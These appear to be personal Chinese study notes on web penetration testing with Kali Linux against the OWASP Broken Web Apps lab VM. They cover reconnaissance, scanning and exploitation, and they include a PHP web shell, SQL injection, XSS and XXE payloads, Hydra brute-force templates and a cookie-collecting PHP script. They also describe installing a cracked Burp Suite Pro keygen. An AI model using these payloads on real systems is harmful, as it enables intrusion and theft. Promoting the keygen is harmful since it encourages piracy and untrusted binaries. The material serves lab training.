# Kali安装

## 更新源

`vim /etc/apt/sources.list`

```
#中科大
 deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
 deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
#阿里云
 deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
 deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
```

## 更新升级

`apt-get update` 更新索引文件

`apt-get upgrade` 更新升级软件包

编辑更新源文件 /etc/apt/sources.list

### 软件包

smplayer stardict geany


## 下载并安装OWASP Broken Web Apps

官方网站速度太慢，亲测迅雷链接http://sourceforge.mirrorservice.org/o/ow/owaspbwa/1.2/OWASP_Broken_Web_Apps_VM_1.2.7z 

OWASP IP地址是192.168.254.131

## 安装ibus拼音输入法

安装拼音输入法
```
apt-get install ibus ibus-pinyin
#打开ibus Preferences
ibus-setup
```
添加拼音输入法：ibus Preferences->Input Method->Add->Chinese->Pinyin

设置输入法切换快捷键：ibus Preferences->General->Keyboard Shortcuts

## 安装gnome桌面

1.  gnome桌面安装

    `sudo apt-get install gnome-core kali-defaults kali-root-login desktop-base`

2.  GNOME 3 安装

    `sudo apt-get install gnome-session-flashback`

3.  GNOME Shell 扩展

    `sudo apt-get install gnome-tweak-tool`

4.  需要重启切换gnome桌面，然后去https://extensions.gnome.org下载插件

5. 然后输入gnome-tweaks可以各种桌面设置

## 安装Chrome
1.  下载安装包
    `wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb`
2.  安装
    `dpkg -i google-chrome-stable_current_amd64.deb`
3.  可能会出现依赖问题，执行
    `apt-get -f install`
4.  运行依赖包安装命令
    `apt-get install google-chrome-stable`
    再运行第二个安装命令
5.  此时在终端启动`google-chrome`，提示root下无法运行
6.  编辑/opt/google/chrome/google-chrome文件
7.  找到`exec -a "$0" "$HERE/chrome" "$@"`，修改为`exec -a "$0" "$HERE/chrome" "$@" --user-data-dir --no-sandbox`
8.  再次运行google-chrome即可

## 设置虚拟机共享文件夹
1.	虚拟机 -> 设置 -> 选项 -> 共享文件夹 ->在主机设置共享文件集
2.	新建mount-shared-folders文件`sudo vim /usr/local/sbin/mount-shared-folders`
3.	输入如下内容
```
	#! /bin/bash
	vmware-hgfsclient | while read folder; do
    vmwpath="/mnt/hgfs/${folder}"
    echo "[i] Mounting ${folder}    (${vmwpath})" 
    mkdir -p "${vmwpath}"
    umount -f "${vmwpath}" 2>/dev/null
    vmhgfs-fuse -o allow_other -o auto_unmount ".host:/${folder}" "${vmwpath}"
	done
	sleep 2s
```

4.	获取执行权限 `sudo chmod +x /usr/local/sbin/mount-shared-folders`

5.	执行脚本 `sudo sh /usr/local/sbin/mount-shared-folders`
6.	若虚拟机中看不到主机中的共享文件时，重新执行第5条指令

## Kali中使用Typora
Typora是一款及其优雅的markdown编辑器，比retext强多了。
### 在线安装
Typora官网提供了Linux在线安装教程，十分复杂，更难过的是，我自己在线安装失败，幸运的是，Typora官网提供了Linux二进制软件包，可以离线使用。
### 离线使用
1.	使用迅雷下载，浏览器下载是龟速
2.	解压出来，随便放在某个目录下，可以看到文件夹里的Typora文件，将该文件所在的目录添加到环境变量PATH中。用vim在文件/etc/profile文件中增加变量，该变量将会对Linux下所有用户有效，并且是“永久的”。要让刚才的修改马上生效，需要执行以下代码 `source /etc/profile`
3.	由于Typora在root权限下无法直接运行，需加上参数--no-sandbox，`Typora --no-sandbox`

## 新版Kali没有owasp-zap工具
1.	运行`apt-get update` 更新本地可用于升级本地软件的软件源列表
2.	运行`apt-get upgrade` 更新本地全部软件包
3.	运行`apt-get install zaproxy`下载安装owasp-zap，打开工具栏就能看到了

## 安装Burp Suite Professional
1.	下载Burp Suite Professional，下载链接 https://pan.baidu.com/s/1adX8-aTXVLltwdxGMINayw 提取码mhui，我放在了Downloads/目录下
2.	解压 `unzip Burp_Suite_Pro_v1.7.37_Loader_Keygen.zip`，出现burp-loader-keygen.jar，burpsuite_pro_v1.7.37.jar 
3.	查看自己java版本 `java -version`
```bash
root@kali:~/Downloads# java -version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk version "1.8.0_212"
OpenJDK Runtime Environment (build 1.8.0_212-8u212-b01-1-b01)
OpenJDK 64-Bit Server VM (build 25.212-b01, mixed mode)
```
4.	启动注册机`java -jar burp-loader-keygen.jar`，注册机启动起来，将注册机窗口向拉伸，可以看到按钮`RUN`，点击该按钮应该会启动Burp Suite Professional，若无反应，需降低java版本。
5.	降低java版本，输入2
```bash
update-alternatives --config java
There are 2 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                            Priority   Status
------------------------------------------------------------
  0            /usr/lib/jvm/java-11-openjdk-amd64/bin/java      1111      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java      1111      manual mode
* 2            /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java   1081      manual mode

Press <enter> to keep the current choice[*], or type selection number:
```
6.	重新执行第4条命令，启动Burp Suite Professional，点击accept，复制注册机中的license到Burp Suite Professional中，点击next-> manual activation->copy requests
7.	复制到注册机activation request中，注册机activation response出现了内容，复制到Burp Suite Professional `paste response`中，再点击next，可以看到注册成功。
8.	以后使用Burp Suite Professional的话，执行`java -jar burp-loader-keygen.jar`启动注册机，点击`run`即可启动Burp Suite Professional。

# Kali侦察

## 使用nmap扫描识别服务
1. 查看服务器是否响应Ping
```
	nmap -sn 192.168.254.131
```
2. 查看开放的端口

```
   nmap 192.168.254.131
```

   调用nmap最简单的方式，先Ping目标服务器，如果响应了，nmap会向1000个TCP端口列表发送探针，观察端口是否响应并报告结果。

3. 查询服务器运行服务的版本

```
   nmap -sV -O 192.168.254.131
```
   向第二个命令添加如下两个任务：

   - `-sV` 请求每个被发现的开放端口的标识，用来确定服务的版本
   - `-O` 让namp尝试猜测操作系统的版本

4. 其他实用参数

   - `-sT` 使用SYN扫描类型，即完全连接的扫描，速度更慢，并会在服务器日志中留下记录。
   - `-Pn` 告诉nmap跳过ping测试扫描指定目标
   - `-v` 开启详细模式
   - `-p n1,n2,...` 告诉nmap测试指定的端口
   - `--script=script_name` 与参数`-p`结合使用，告诉nmap在目标的开放端口上运行的脚本，用来进行漏洞检测、扫描、识别等等。

## 识别Web应用防火墙
1.  使用脚本测试防火墙

```
    nmap -p 80,443 --script=http-waf-detect 192.168.254.131
```

2.  另一个namp脚本，可以帮助我们更加精确地识别防火墙设备

```
    nmap -p 80,443 --script=http-waf-fingerprint 192.168.254.131
```

3.  使用Kali自带的wafw00f

```
    wafw00f 192.168.254.131
```

## 查看源代码
1.  教程中使用firebug，现在已不再支持

2.  firefox-> F12->Inspector->修改页面元素，script里的内容修改后无反应

## 获取修改Cookie
1.  教程中使用OWASP-Mantra 浏览器以及它的工具cookies manager +

2.  作为替代，在firefox中添加cookie quick manager

3.  在搜索框中输入192.168.254.131，可以看到3条内容

4.  选择PHPSESSID，勾选httponly，告诉浏览器，该cookie值不能被脚本访问

## 利用robots.txt查看站点的隐藏链接
1.  浏览192.168.254.131/vicnum/

2.  向URL后添加robots.txt，显示如下内容

    User-agent: *
    
    Disallow: /jotto/
    
    Disallow: /cgi-bin/

    这个文件告诉搜索引擎，jotto和cgi-bin的首页不允许被任何搜索引擎（User Agent）收录

## 使用dirbuster发现站点的文件和文件夹
1.  访问Application | Web Applications | Web Crawlers | dirbuster

2.  设置站点url为192.168.254.131

3.  选择list based brute force(基于列表爆破)，并选择一个字典文件

4.  取消Be recursive (递归)

5.  开始

6.  结果中的响应代码：
    - 200 文件存在并能够读取
    - 301 到给定url的重定向
    - 401 需要权限来访问该文件
    - 403 请求有效但服务器拒绝
    - 404 文件不存在

## 使用cewl分析站点使用的单词列表，可以用来尝试口令破解

## 使用John the Ripper生成字典


# 爬虫和蜘蛛

作为每个 Web  渗透测试中侦查阶段的一部分，我们需要浏览器每个包含在网页中的链接，并跟踪它展示的每个文件。有一些工具能够帮助我们自动和以及加速完成这个任务，它们叫做 Web  爬虫或蜘蛛。这些工具通过跟随所有到外部文件的链接和引用，有的时候会填充表单并将它们发送到服务器，保存所有请求和响应来浏览网页，从而提供给我们离线分析它们的机会。

## 一、 使用Wget为离线分析

1. 语法 `wget [OPTION] ... [URL]...`

   + -r` 递归下载每个页面的所有链接

   - `-P` 允许设置保存下载内容的位置，默认是当前目录
   - `-l` 递归下载时，规定wget遍历的深度
   - `-k` 文件下载后，wget修改所有链接，使其指向本地文件，使得可以在本地浏览这些页面
   - `-p` 使得wget下载所需的所有图像，即使位于其他站点
   - `-w` 这个选项让 Wget 在两次下载之间等待指定的描述。当服务器中存在防止自动浏览的机制时，这会非常有用

2. 步骤

```bash
   mkdir bodgeit_offline
   wget -r -P bodgeit_offline/ http://192.168.2.167/bodgeit/
```

## 二、使用HTTrack为离线分析下载页面
它允许你从互联网下载 WWW 站点到本地目录中，递归构建所有目录、从服务器获得 HTML、图像，和其它文件到你的计算机中。

### 准备

在kali中安装HTTrack

```bash
apt-get update
apt-get install httrack
```

### 操作步骤

1. 创建目录存储下载的站点

```bash
   mkdir bodgeit_httrack
   cd bodgeit_httrack
```

2. 下载站点

   `httrack http://192.168.2.167/bodgeit/`

   需要注意的是最后的`/`非常重要，缺少的话，HTTrack返回404错误。

### 工作原理

HTTrack 创建站点的完整静态副本，这意味着所有动态内容，例如用户输入的响应，都不会有效。在我们下载站点的文件夹中，我们可以看到下列文件和目录：

+   以服务器名称或地址命名的目录，包含所有下载的文件。
+   `cookies.txt`文件，包含用于下载站点的 cookie 信息。
+   `hts-cache`目录包含由爬虫检测到的文件列表，这是 httrack 所处理的文件列表。
+   `hts-log.txt `文件包含错误、警告和其它在爬取或下载站点期间的信息
+   ` index.html`文件重定向到副本的原始主页，它位于名称为服务器的目录中。
+   `-rN` 将爬取链接的深度设置为N
+   `-%eN` 设置外部链接的深度

## 三、使用ZAP蜘蛛

wget、httrack只是下载了站点完整的静态副本，但并没有服务器的请求与响应，zap蜘蛛可以获得上述信息。

### 步骤

1. 启动zap，设置浏览器代理，浏览http://192.168.2.167/bodgeit/
2. 在sites标签页，打开http://192.168.2.167/文件夹，右键GET：bodgeit
3. 选择attack -> spider，保留默认选项，点击start scan
4. 结果出现在底部面板，可以查看每一个页面的请求和响应

### 原理

ZAP 的蜘蛛跟随它找到的每个链接,获取每个页面的请求和响应。此外,蜘蛛会跟随表单响应、重定向和包含在 robots.txt 和  文件中的URL。

## 四、Burp Suite爬取站点

Burp是应用最广泛的渗透测试的工具，Kali默认安装社区版本，目前Burp Suite Community 2.0移除了spider功能，Burp Suite Professional的安装教程见上文所述。

## 五、使用脚本扫描

github上的目录扫面脚本dirsearch，`py python3 dirsearch.py -u http://10.10.10.175:32770 -e *`

# 第四章 漏洞发现

## 4.1 使用hackbar简化参数分析

在测试 Web 应用时，我们需要和浏览器的地址栏交互，添加或修改参数，以及修改 URL。一些服务器的相应会包含重定向，刷新以及参数修改。所有这些改动都会使对相同变量尝试不同值的操作非常费时间。Hackbar可以简化上述操作。

### 准备

最新版firefox安装的hackbar是收费版，网上有安装免费版的教程。

### 步骤

1. 访问DVWA并登录，默认用户名/密码是admin/admin

2. 选择SQL Injection，在User ID框中输入不同数值，可以看到服务器的不同响应

3. 使用hackbar简化上述工作，f12调出hackbar（不同版本调出的方式可能不同）

   
   
4.	点击loadurl导入url框中的地址，修改参数后，点击execute，可以看到服务器的响应。在测试很多输入的表单或者服务器会重定向其他页面时，非常有用。

### 原理

Hackbar 是带有一些实用特性的第二个地址栏，比如不受 URL 重定向影响，并且允许我们修改 POST参数。此外，Hackbar 可用于向我们的请求中添加 SQL 注入或跨站脚本代码段,以及哈希、加密和编码我们的输入。

## 4.2  使用Tamper Data插件拦截修改请求

有时候,应用拥有客户端的输入校验机制，它们通过 JavaScript,隐藏表单或者 POST 数据，并不能直接在地址栏中了解或看到。为了测试这些以及其它类型的变量，我们需要拦截浏览器发送的请求并且在它们到达服务器之前修改它们。Tamper Data可以完成上述工作。

### 步骤

1. 打开浏览器Mantra，打开`Tools | application auditing | tamper data`，[owaspbwa][owaspbwa]/dvwa，可以看到tamper data中出现了我们请求的会话

2.	为了拦截请求，点击`start tamper`，在浏览器中随机输入用户名/密码，点击登录
3. 在确认框中取消勾选`ocntinue tampering` 并点击`tamper`，会出现`tamper popup`窗口，可以修改请求头、POST参数，再点击OK，`tamper data`将修改后的请求包发送给服务器。

### 原理
Tamper Data 会在请求离开浏览器之前捕获请求，并提供给我们时间来修改它包含的任何变量。但是，它也有一些限制,例如不能编辑 URL 或 GET 参数。

## 4.3 使用ZAP查看和修改请求

相比于Tamper Data，ZAP不仅可以修改参数，也可以修改方法（GET改为POST）

### 准备
启动ZAP并配置浏览器代理

### 步骤
1.	访问[owaspbwa][]/mutillidae，并点击 `OWASP 2013 | A1 Injection(SQL) | SQLi-Extract Data | User Info(SQL)`
2.	输入用户名/密码时，浏览器会检测是否存在非法字符
3.	使用ZAP拦截请求（点击`break on all requests`，菜单栏中绿色圆球），在浏览器中输入用户名/密码
4.	回到ZAP中，输入合法的用户名/口令，提交后，在ZAP | Break面板中可以看到拦截的包，修改url中的`username` 和 `password`的值，点击`unbreak on all requests`和播放按钮，可以在ZAP | History 面板中看到刚发出去的包，同时浏览器也可以看到服务器的响应。

### 原理
ZAP可以拦截所有的request包，并允许我们对其进行修改

## 4.4 使用Burp Suite查看和修改请求

使用Burp拦截和修改请求

### 步骤
1.	配置浏览器代理，并运行`java -jar burp-loader-keygen.jar`，打开burp professional
2.	浏览[owaspbwa][]/mutillidae，并点击 `OWASP 2013 | A1 Injection(SQL) | SQLi-Extract Data | User Info(SQL)`，保持 burp | proxy | intercept is off（拦截数据包）
3.	填写合法用户名/口令，并提交，burp会拦截该数据包，修改数据包后点击 forward 或 intercept is on，重新发送数据包。可以在浏览器中看到服务器的响应。

### 更多
可以使用burp repeator来测试不同的输入值，在brup | render 中可以看到服务器的响应。

[owaspbwa]: http://192.168.2.167

## 4.5 识别跨站脚本（XSS）漏洞

本节学习反射型XSS，简单地说就是用户的输入会被反射到响应中，成为响应中HTML的一部分，如果客户端没有检查用户输入且服务端没有对用户输入进行合理编码，则可以输入用于HTML代码中的字符，从何被浏览器解释为源代码。

### 步骤

1. 登录[owaspbwa][]/DVWA并访问反射型XSS
2. 在输入框中输入任何字符，都会成为响应HTML源代码的一部分
3. 输入一个名称，后面带上简单的脚本代码`Bob<script>alert('XSS')</script>`，页面会执行脚本并弹框。

### 原理

为了发现 XSS 漏洞,我们需要遵循以下原则：

+ 我们在输入框中输入的，准确来说是被发送的文本，用于形成在页面中展示的信息，这是反射漏洞。
+ 特殊的字符没有编码或转义。
+ 源代码表明，我们的输入被集成到某个位置，变成了 HTML 代码的一部分，并且会被浏览器解释。

### 更多

除了反射型XSS，还有一种存储型XSS。存储型XSS在提交后浏览器不一定会有反应，但输入会存储在服务器中，会在用户每次访问数据时执行。

## 4.6 基于错误的SQL注入识别

攻击者向表单输入或请求中的其它参数注入 SQL 命令，应用发送修改后的请求，使服务器执行恶意的SQL 语句。

### 步骤

1. 登录[owaspbwa][]/DVWA，访问SQL Injection
2. 测试输入`1`、`1'`、`1''`，观察不同的响应，可以使用hackbar来测试。
3. 执行SQL攻击 `' or  '1'='1`，可以获取所有数据库中的注册用户。

### 原理

根据不同的测试结果的响应，特别是错误信息，可以猜测服务端代码拼装了一个请求`"SELECT * FROM users WHERE id='input'"`

构造SQL注入代码的关键是引号闭合。

## 4.7 识别SQL盲注

SQL盲注：浏览器不能显示任何可以引导我们的错误信息或提示，只能告诉我们是与否，通过不断的提问，获得数据库的信息。

### 步骤

1. 登录[owaspbwa][]/DVWA，访问SQL Injection(Blind)

2. 输入`1`、`1'`、`1''`，服务器只响应正确的语句，可以知道这里存在SQL盲注入。

3. 猜测数据库名长度 `1' and length(database()) =4 #`

4. 猜测数据库名字

```sql
   1' and ascii(substr(database(),1,1))=100#        //d
   1' and ascii(substr(database(),2,1))=118#        //v
   1' and ascii(substr(database(),3,1))=119#        //w
   1' and ascii(substr(database(),4,1))=97#         //a
```
### 原理

在基于错误的 SQL 注入中，我们使用由服务器发送的错误来识别查询类型、表和列的名称。当我们视图利用盲注时，我们需要通过问问题来得到信息。

## 4.8 识别Cookie中的漏洞

Cookie 是服务器发送给客户端的小型数据片段，它储存于用户的浏览器中。它们包含有关于特定 Web 应用用户的信息。服务器使用Cookie能够同时识别由不同客户端产生的不同请求。

### 步骤

1. 访问[owspabwa][]/mutillidae，打开cookie manager
2. 访问OWASP 2013 | A2-Broken Authentication and Session Management | Authentication Bypass | via cookie
3. 在cookie manager中可以看到获取的cookie，在detail中，httponly没有开启，意味着该cookie值可以被XSS脚本获取。

## 4.9 使用SSLScan获取SSL和TLS信息

SSLScan，它是 Kali Linux 所包含的工具，通过建立到服务器的安全通信来分析服务器的配置文件(从客户端的角度)。

```
sslscan 192.168.2.167
```

SSLScan 通过创建多个到 HTTPS 的链接来工作,并尝试不同的加密方式和客户端配置来测试它接受什么。

## 4.10 查找文件包含漏洞

文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。

### 步骤

1. 登录DVWA访问File Inclusion，此时URL为`https://192.168.2.167/dvwa/vulnerabilities/fi/?page=include.php`，将include.php替换为index.php，浏览器显示空白页面，证明这里存在本地文件包含漏洞，只是在当前目录下未找到index.php。
2. 查看网页源码，可以看到很多文件路径，



修改网页url=`https://192.168.2.167/dvwa/vulnerabilities/fi/page=../../setup.php`，可以访问setup页面。此外，可以看到很多文件路径最后是`.`，这表示访问该目录下的默认文件，访问<https://192.168.2.167/dvwa/vulnerabilities/fi/?page=../../vulnerabilities/csrf/index.php>即可。

3. 除了本地文件包含漏洞，这里还存在远程文件包含漏洞，访问<https://192.168.2.167/dvwa/vulnerabilities/fi/?page=https://192.168.2.167/mutillidae/>

## 4.11 识别POODLE漏洞

POODLE 攻击是将 TLS 通信降级为 SSLv3 并强制使用易于被攻破的加密算法(CBC)

Nmap使用脚本ssl-poodle可以检测目标服务器是否存在poodle漏洞

### 步骤

1. 下载ssl-poodle.nse，<http://nmap.org/nsedoc/scripts/ssl-poodle.html>
2. 将上述文件复制到/usr/share/nmap/scripts/中
3. 运行`nmap --scripts ssl-poodle -sV -p 443 192.168.2.167`


# 第五章 自动化扫描

Kali 包含一些针对 Web 应用或特定 Web 漏洞的漏洞扫描器

## 5.1 使用Nikto扫描

Nikto 是开源(GPL)的 Web 服务器扫描器,它对 Web 服务器执行综合扫描,包含超过
6700 个潜在的危险文件或程序,检查超过 1250 个服务器的过期版本,以及超过 270 个服务器上
的特定问题。它也会检查服务器配置项,例如多个首页文件的存在,HTTP 服务器选项,也会尝
试识别安装的 Web 服务器和软件。扫描的项目和插件也会经常更新,并可以自动更新。

`nikto -host http://192.168.2.167/mutillidae/ -o result.html`

扫描报告十分详细，粗略看了一些，可以发现文件包含漏洞，站点文件目录泄漏等等漏洞。

## 5.2 使用Wapiti发现漏洞

Wapiti 是另一个基于终端的 Web 漏洞扫描器，它发送 GET 和 POST 请求给目标站点，来寻找可能的漏洞。

Kali中安装`apt-get install wapiti`

扫描peruggia应用，并将结果保存为html格式，`wapiti -u http://192.168.2.167/peruggia/ -o wapiti-result -f html -m "xss,file" `

wapiti详细的帮助文档<https://wapiti.sourceforge.io/wapiti.1.html>

+ `-m` 指定要使用的攻击模块，模块之间用逗号隔开
+ `--list-modules` 列出可用的攻击模块

wapiti扫描时间特别长

## 5.3 使用ZAP扫描漏洞

打开zap，配置浏览器代理，访问[owasp-bwa][]/peruggia/，使用zap spider爬取站点。

在zap | sites中右键peruggia文件夹，点击attack | active scan，在弹出的窗口中点开show advanced options，可以设置technology（要执行的特定技术测试）

点击start scan，结果在alert面板中，菜单栏report | generate HTML report生成html格式的结果报告。

另外，使用burp也可以扫描web漏洞

## 5.6 使用Metasploit的Wmap发现web漏洞

### 准备

`service postgresql start` 启动所连接的数据库服务器

`msfconsole` 

`db_status` 检测msf数据库连接情况 ，若显示`postgresql selected, no connection`，则执行`msfdb reinit`，重新启动msf数据库

+ 查看wmap命令
```bash
	msf5 > help wmap Commands

	wmap Commands
	=============

    	Command       Description
    	-------       -----------
    	wmap_modules  Manage wmap modules
    	wmap_nodes    Manage nodes
    	wmap_run      Test targets
    	wmap_sites    Manage sites
    	wmap_targets  Manage targets
    	wmap_vulns    Display web vulns
```

+ 在进行扫面之前，使用`wmap_sites -a http://192.168.2.167/peruggia`添加一个新的站点，使用`wmap_sites -l`列出已添加的站点	
```bash
  msf5 > wmap_sites -l
  [*] Available sites
  ===============

       Id  Host           Vhost          Port  Proto  # Pages  # Forms
       --  ----           -----          ----  -----  -------  -------
       0   192.168.2.167  192.168.2.167  80    http   0        0

```

+ 接着，用`wmap_targets -d 0 `将ID为0的站点定义为目标，或者使用`wmap_targets -t http://192.168.2.167/peruggia/`将<http://192.168.2.167/peruggia/`>定义为目标

+ 使用`wmap_run`即可开始扫描


### 步骤

1. 启动metasploit控制台后，加载wmap模块`load wmap`

2. 想wmap模块添加站点，并定义为目标，最后开始扫描。

3. 查看扫描的漏洞结果

```bash
   vulns
   wmap_vulns
```

4. 导出metasploit数据库为xml文件

   `db_export -f xml /root/database.xml`

# 第六章 利用-低悬的果实

## 6.1 恶意使用文件包含和上传

### 准备

访问[owasp-bwa][]/dvwa，设置DVWA Security为medium

准备一句话木马webshell_geroge.php

```php
<?
system($_GET['cmd']);
echo '<form method="post" action="../../hackable/uploads/webshell_geroge.php"><input type="text" name="cmd"/></form>';
?>
```

准备重命名脚本rename_geroge.php

```php
<?
system('mv ../../hackable/uploads/webshell_geroge.jpg ../../hackable/uploads/webshell_geroge.php');
?>
```

将上述个文件另存为jpg格式文件。

### 步骤

1. 上传两个jpg格式文件
2. 利用文件包含漏洞执行rename_geroge.jpg，将webshell_geroge.jpg改为webshell.php
3. 利用文件包含漏洞执行webshell_geroge.php
4. 在地址栏中添加`?cmd=pwd`，可以执行cmd命令

### 原理

+ DVWA Medium Level Secyurity文件上传限制MIME类型
	
	可以利用burp拦截数据包修改content-type字段值为image/jpeg，即可绕过中等级别上传限制。也可以上传rename.jpg和webshell.jpg，再利用文件包含漏洞执行rename.jpg中的php代码将webshell.jpg变为webshell.php。
	当服务器上有webshell.php时，即可以连接了。
+ DVWA High Level Secyurity文件上传限制后缀名类型为jpg
	可以将一句话木马添加在正常图片后面，再上传到服务器，但高安全等级时文件包含漏洞被封堵，目前不知道如何执行图片木马。


## 6.2 利用OS命令注入漏洞

DVWA提供了Command Execution功能，可以Ping，采用名录连接符进行命令注入。

### Low Level Security

输入完全无限制，直接坠在ping命令后，可以通过命令连接符执行注入命令

```php
    command1 && command2   逻辑与，command1执行成功才会执行command2
    command1 | command2    管道，command1的输出作为command2的输入
    command1 ; command2   先执行command1后执行command2
    以上三种连接符在windows和linux环境下都支持。
```

### Medium Level Security



过滤了`&&` 和`;`，仍可以使用`|`。

## 6.3 XML外部实体注入漏洞

XML外部实体注入（也称为XXE）是一个Web安全漏洞，它使攻击者能够干扰应用程序对XML数据的处理。它通常允许攻击者查看应用程序服务器文件系统上的文件，并与应用程序本身可以访问的任何后端或外部系统进行交互。

+ **XML实体**：在一个甚至多个XML文档中频繁使用某一条数据，我们可以预先定义一个这条数据的别名，即作为一个ENITITY，然后在这些文档中需要该数据的时候调用它

+ **XML自定义实体**：XML允许在DTD中定义自定义实体。例如：

  ```xml
  <！DOCTYPE foo [<！ENTITY myentity “my entity value”>]>
  ```

  此定义意味着对实体的任何使用都引用＆myentity; XML文档中的内容将替换为定义的值：“ my entity value”。

+ **XML外部实体**：XML外部实体是一种自定义实体，其定义位于声明它们的DTD之外。
   外部实体的声明使用SYSTEM关键字，并且必须指定一个URL，应从该URL加载实体的值。例如：

  ```
  <！DOCTYPE foo [<！ENTITY ext SYSTEM“ http://normal-website.com”>]>
  ```

  URL可以使用file：//协议，因此可以从文件加载外部实体。例如：

  ```
  <！DOCTYPE foo [<！ENTITY ext SYSTEM“ file：/// path / to / file”>]>
  ```

  XML外部实体提供了引发XML外部实体攻击的主要方法。

### 步骤

1. 访问[owaspbwa][]/mutillidae，others | XML External Entity Injection | XML Validator

2. 外部实体

   ```xml
   <!DOCTYPE fileEntity [
   <!ELEMENT fileEntity ANY>
   <!ENTITY fileEntity SYSTEM "file:///etc/passwd">
   ]>
   <somexml><message>Hello World &fileEntity;</message></somexml>
   ```

   可以访问/etc/passwd文件，使用这个技巧,我们就可以提取系统中的任何文件，只要它们可以在 Web 服务器的运行环境被用户读取。

3. 也可以使用外部实体加载页面

   ```xml
   <!DOCTYPE fileEntity [
   <!ELEMENT fileEntity ANY>
   <!ENTITY fileEntity SYSTEM
   "http://192.168.56.102/dvwa/hackable/uploads/ webshell.php?
   cmd=/sbin/ifconfig">
   ]>
   <somexml><message>Hello World &fileEntity;</message></somexml>
   ```


## 6.4 使用Hydra爆破密码

Hydra 是网络登录破解器，也就是在线的破解器,这意味着它可以用于通过爆破网络服务来发现登录密码。

### 准备

准备用户名文件user.txt和口令文件pass.txt

### 步骤

1. 使用burp分析登录请求如何发送



获取登录失败信息*Login failed*


2. 终端运行

   ```bash
   hydra -L user.txt -e ns 192.168.2.167 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login faild"
   ```

   

### 原理

1. ```
   hydra -L <用户名列表> -p <密码列表> <IP地址> <表单参数> <登录失败消息>
   ```

2. ```
   1、破解ssh： 
   hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh 
   hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh 
   
   
   2、破解ftp： 
   hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV 
   hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV 
   
   
   3、get方式提交，破解web登录： 
   hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/ 
   hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
   
   
   4、post方式提交，破解web登录： 
   hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password" 
   hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>" 
   （参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中 的内容是表示错误猜解的返回信息提示。） 
   
   
   5、破解https： 
   hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https 
   
   6、破解teamspeak： 
   hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak 
   
   7、破解cisco： 
   hydra -P pass.txt 10.36.16.18 cisco 
   hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable 
   
   8、破解smb： 
   hydra -l administrator -P pass.txt 10.36.16.18 smb 
   
   9、破解pop3： 
   hydra -l muts -P pass.txt my.pop3.mail pop3 
   
   10、破解rdp： 
   hydra ip rdp -l administrator -P pass.txt -V 
   
   11、破解http-proxy： 
   hydra -l admin -P pass.txt http-proxy://10.36.16.18 
   
   12、破解imap： 
   hydra -L user.txt -p secret 10.36.16.18 imap PLAIN 
   hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
   
   ```

## 6.5 使用burp爆破登录口令

### 步骤

1. 打开burp，配置浏览器代理，浏览器访问[owaspbwa][]/dvwa/login.php，随便输入用户名/口令。

2. 在burp | target页面中找到POST用户名/口令的数据包，右键send to intruder。

3. 在burp | intruder页面中

   

   找到Positions页面，更改`Attack type`为Cluster bomb，然后点击**Clear §**清理默认选中项。选中要测试的用户名和口令，点击**Add &sect;**添加。

4. 在burp | intruder | Payloads页面中，`Payload set`选择1，`Payload Options`Load准备好的用户名列表文件用来用于穷尽用户名，同理设置口令字典。最后点击`start attack`

5. 输入正确的用户名/口令时，页面跳转到index.php，错误时，页面跳转回login.php，在results页面中反向过滤Location: index.php，即可得到正确的用户名/口令

   
   
### 原理

   Intruder 所做的是，修改请求的特定部分，并使用定义好的载荷替换这些部分的值。载荷可以是这些东西:

   + 简单列表：来自文件,由剪贴板传递或者写在文本框中的列表。
   
   + 运行时文件：Intruder 可以在运行时从文件中读取载荷，所以如果文件非常大,它不会完全加载进内存。
   
   + 数字：生成一列顺序或随机的数字，以十进制或十六进制形式。
   
   + 用户名生成器：接受邮件地址列表,从中提取可能的用户。
   
   + 爆破器：接受字符集并使用它来生成指定长度的所有排列。

   这些载荷由Intruder以不同形式发送，在 Positions 标签页中由攻击类型指定。攻击类型在载荷标记中的组合和排列方式上有所不同。

   + Sniper：对于载荷的单一集合，它将每个载荷值放在每个标记位置,一次一个。
   + Battering ram：类似Sniper,它使用载荷的单一集合,不同点是它在每个请求中将所有位置设置为相同的值。
   + Pitchfork：使用多个载荷集合，并将每个集合中的一个项目放到每个标记位置中。当我们拥有不能混用的预定义数据时，这会非常有用，例如测试已知的用户名和密码。
   + Cluster bomb：测试多个载荷，所以每个可能的排列都可以测试到。

## 6.6 通过XSS获得会话Cookie

### 准备

1.  启动kali中的apache服务`service apache2 start`，后面的工作中需要kali提供http服务。
   
2. 在apache的文档根目录/var/www/html/中创建savecookie.php文件
   
      ```php
      <?php
      $fp = fopen('/tmp/cookie_data.txt', 'a');
      fwrite($fp, $_GET["cookie"] . "\n");
      fclose($fp);
      ?>
      ```
   
